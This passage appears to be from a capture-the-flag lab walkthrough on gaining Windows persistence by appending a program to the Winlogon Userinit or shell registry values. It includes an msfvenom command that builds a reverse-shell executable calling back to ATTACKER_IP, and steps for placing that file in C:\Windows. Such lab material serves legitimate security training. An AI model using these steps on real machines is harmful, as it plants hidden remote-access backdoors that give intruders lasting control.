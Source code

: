 ### Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

* `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
* `shell` points to the system's shell, which is usually `explorer.exe`.

![task6-registry-winlogon](./images/task6-registry-winlogon.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```
move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

**Note**: While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

![task6-registry-backdoor](./images/task6-registry-backdoor.png)